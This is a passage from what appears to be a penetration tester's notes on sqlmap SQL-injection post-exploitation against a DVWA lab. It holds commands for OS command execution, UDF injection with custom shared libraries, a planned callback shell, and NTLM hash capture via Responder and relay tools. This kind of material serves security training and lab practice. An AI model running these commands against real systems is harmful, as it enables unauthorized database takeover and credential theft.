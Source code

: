 ```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --os-cmd="python -c <payload>"
```

## 4.2 - User Defined Function

TODO: Test UDF for MySQL and check what conditions does it requires.

### 4.2.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.

### 4.2.2 - General

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --udf-inject
```

### 4.2.3 - Linux

TODO: Compile the shared object linux file execute a callback shell when uploading it to the MySQL DBMS

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --random-agent --udf-inject --shared-lib=/path/to/file.so
```

### 4.2.4 - Windows

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --random-agent --udf-inject --shared-lib=/path/to/file.dll
```


--cleanup           Clean up the DBMS from sqlmap specific UDF and tables


## 4.3 - Out-of-Band

### 4.3.1 - Conditions

1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.

### 4.3.2 - Windows

TODO: Fill in this info to test a windows environment

TODO: Test this and place it where it's appropriate

#### 4.3.1.2 - Grab NTLM hashes

- Run [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Passive/Responder|Responder]] to grab the NTLM hashes. This also can be done with [[Pentesting Phases/Initial Access/Sniffing and Spoofing/Active/Metasploit#^0c8cfd|metasploit SMB relay auxiliary module]] including [[Impacket|ntlmrelayx]].
